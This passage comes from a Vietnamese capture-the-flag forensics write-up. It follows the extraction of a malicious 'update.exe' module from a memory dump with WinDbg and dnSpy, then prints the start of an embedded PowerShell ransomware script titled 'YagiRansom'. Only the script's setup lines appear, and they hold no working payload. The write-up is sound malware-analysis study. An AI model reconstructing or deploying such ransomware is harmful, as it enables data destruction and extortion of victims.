 - Để ý module đầu tiên được load vào là update, chính là file thực thi khởi chạy tạo thành process này. Bởi khi file thực thi khởi chạy thì tiến trình sẽ load nó vào đầu tiên, sau đó mới load các dll cần thiết mà file đó gọi tới.
- Nhấn vào trong nó offset đầu và cuối để dễ trích xuất file này ra.
- ![a](/assets/posts/ASCIS2024/5.png)

> !SaveModule 00000000`00aa0000 C:\Users\<YourUsername>\Desktop\update.exe

- Sau đó ta load vào dnSpy hoặc Ilspy.
- Khi load vào mình nhận ra rằng tại resource có 1 file ps1, ở 1 file dll thì việc resource có thêm 1 file ps1 nữa là khá đáng ngờ. Chưa kể trong luồng http bị mã hoá có sử dụng User-Agent là powershell
- Tuy nhiên mình lưu về không được, nên mình sẽ sử dụng lệnh strings để trích xuất file ps1 này ra trực tiếp từ file DMP.
- ![nânna](/assets/posts/ASCIS2024/7.png)

- Đây là full source file powershell

```powershell
$ProgressPreference = "SilentlyContinue"
$ErrorActionPreference = "SilentlyContinue"
$OSVersion = [Environment]::OSVersion.Platform
if ($OSVersion -like "*Win*") {
$Host.UI.RawUI.WindowTitle = "YagiRansom" 
$Host.UI.RawUI.BackgroundColor = "Black"
$Host.UI.RawUI.ForegroundColor = "White" }
# Variables
$Mode = $args[0]
$Directory = $args[1]
$WiETm = $args[3]
$7CiB = $args[3]
$UFX = $args[5]
$ENyR = $args[6]
$DCe = $null
# Errors
```